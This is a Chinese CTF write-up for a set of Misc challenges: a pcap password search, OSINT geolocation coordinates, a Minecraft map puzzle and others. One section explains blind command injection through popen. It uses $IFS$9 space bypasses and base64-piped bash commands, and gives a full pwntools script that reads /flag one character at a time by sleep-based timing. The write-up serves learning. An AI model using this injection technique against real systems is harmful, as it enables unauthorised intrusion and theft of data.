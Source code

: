 # <font style="color:#601BDE;">M</font><font style="color:#AE146E;">isc</font>
## <font style="color:#5C8D07;">关注公众号咋不算 CTF</font>
![](../../../images/2ae38ffb2f80c7e05500ea431626f5d3.png)

![](../../../images/a1f625e483f3ac8ac936c350ce24c632.png)

进入微信官网下载微信。

![](../../../images/c6eddf838a80486db88e2f1da6f3bac3.png)

登录微信。

![](../../../images/79811abc7fa8f8700d24c22834468291.png)



## <font style="color:#5C8D07;">我有权保持沉默</font>
IDA 逆向一下，其实 popen 已经实现任意命令执行了，只是关闭了所有的输出，没有回显。

这不就是无回显 RCE 吗？

这里可以通过 sleep 进行盲注，对每一个字节的内容进行爆破，通过响应的时间不同来得到正确答案。

空格可以用 `$IFS$9` 绕过，命令可以 base64 编码，然后用 echo 命令绕过一些特殊字符。

即 `echo base64编码后的命令 | base -d | bash`

如何获取 flag 中每个字符的内容呢？我们可以用 head 取出一部分，然后在取出的部分的基础上 tail 取最后一个字符，这样我们就可以取到我们指定位置上的字符了。

即 `head -c n /flag | tail -c 1`

我们判断当前字符是否符合条件，执行的命令就是：

`[$(head -c n /flag | tail -c 1)=爆破的字符] && sleep 1`

写一个脚本用 pwntools 交互即可。

```python
from pwn import *
import base64
import string
#context.log_level = 'debug'
box = string.ascii_letters + string.digits
print(box)
p = remote("223.129.86.2",34079)
p.recv()
flag = ""
part1 = "echo$IFS$9"
part3 = "$IFS$9|$IFS$9base64$IFS$9-d$IFS$9|$IFS$9bash"
p.recv()
for i in range(1,200):
    for c in string.printable:
        print(flag)
        part2 = "[ \"$(head -c " + str(i)  + " /flag | tail -c 1)\" = \"" + c + "\" ] && sleep 1"
        print(part2)
        payload = (part1+base64.b64encode(part2.encode()).decode()+part3)
        #print(payload)
        time1 = time.time()
        p.sendline(payload.encode())
        p.recvuntil(b': ')
        time2 = time.time()
        #print(time2-time1)
        if(time2-time1>0.9):
            flag+=c
            break
    print(flag)


```

![](../../../images/4e3d115e45905df58186aa9814d6312c.png)

## <font style="color:#5C8D07;">CTF一把梭？</font>
抱歉，一把梭不了。

拿到一个超大流量包，还有一个带密码的压缩包，密码应该是流量包里面的东西。

过滤 http 流，直接搜 pass 分组字节流。

![](../../../images/6983608a159f95a558245318c1028914.png)

![](../../../images/5f321ad0df3eb0b4f531bf1f1dee6cd8.png)

拿到密码。

解开压缩包就是 flag。

## <font style="color:#5C8D07;">SCU-OSINT</font>
容错很大，城市对了基本上就差不多了，百度识图能出大部分，不能出就谷歌识图。

p4，p7 里面有关键字，直接搜索。

p10 的图片在 t1d 空间里面，应该是在上海，随便点一个位置就对了。

```plain
[1][✅]4.473459,51.924184
[2][]
[3][]
[4][✅]114.264492,30.537959
[5][✅]-122.425496,37.785283
[6][✅]117.285432,31.870445
[7][✅]104.092491,30.650736
[8][✅]116.391348,40.004538
[9][✅]120.43611,36.095561
[10][✅]121.462492,31.255899


```



## <font style="color:#5C8D07;">无穷的尽头</font>
挺有意思的 mc 题，做题记录在下面的文档中。

```plain
失败的man好像去了72号维度

有序-有序-无序-有序-无序-有序-无序-有序-有序-有序-有序-无序-有序-无序-有序-无序-有序-无序-无序-无序-无序-有序-无序-有序-有序-有序-有序-有序-无序-有序-有序-无序-有序-有序-无序-无序-有序-无序-有序-有序-无序-有序-无序-有序-有序-无序-无序-有序-无序-有序-无序-有序-有序-无序-无序-有序-有序-有序-无序-有序-有序-无序-无序-无序-有序-无序-有序-无序-有序-有序-有序-无序-无序-无序-有序-有序-无序-无序-有序-有序-无序-有序-无序-有序-无序-无序-无序-有序-无序-无序-有序-无序-有序-有序-有序-无序-无序-无序-无序-无序

你相信命运吗？被命运选中的人，是我啊

二即均衡，三即新生，数质数吧，质数是谁也无法分割的数字

为了人类的幸福，所要克服的，便是命运啊，人是必须要上天堂的，我所追求的是，指引所有人到达那个全新的世界，感觉到了，位置来了，理解命运吧，时间要加速了：

『螺旋楼梯』，『独角仙』，『无花果塔』，『德蕾莎之道』，『特异点』，『天使』，『绣球花』，『秘密皇帝』

话已至此，时间加速，达到全新的世界吧！

aHR0cHM6Ly9wYW4ueHVubGVpLmNvbS9zL1ZPQnNLWldkc1VuZmdGN05acEV3Y0ZaY0ExP3B3ZD1ja2I4

其实他在69号维度

Exploit:
1. /fill ~ ~ ~ -50 210 90 minecraft:air

34-45-55-66-67-68-69

Wd5p2 34
AeSy8 45
iUq0c 55
Myqvm 66
MkdJK 67
qkoy7 68
sYyyw 69

scuctf{Wd5p2-AeSy8-iUqOc-Myqvm-MkdJK-qkoy7-sYyyw}


```

解题的关键是不要忽略地图中的细节，在第一张地图中拿到所有东西就可以去第二张图了。

第一张图会有一些恶心人的地方，可以用指令去绕过。

地图里面有死循环设置为冒险模式，我们可以用 fill 指令去填充方块，填充 air 就相当于删掉了方块。

第一张图还有一个不好打的怪，直接给自己开个抗性提升，然后 tp 出去，发现指令中心就在附近。

![](../../../images/73bf81c76b32eddacad04d946a4c48e6.png)

fill 把死循环的命令方块全部删掉。

然后就能开创造了。

![](../../../images/313f6e80432d2459ccfec42f2f83e6c9.png)

第一张图还能拿到一个类似路径的东西，我们知道起点、终点、联通情况，我们就能直接跑 BFS，把路径跑出来，在第二张图按照顺序走就行了。

```plain
34-45-55-66-67-68-69


```

第二张图也可以用类似地图一中的指令，然后就能开创造了，也可以开旁观者模式，找到核心值就行。

## <font style="color:#5C8D07;">问卷</font>
填完即可得到 flag。

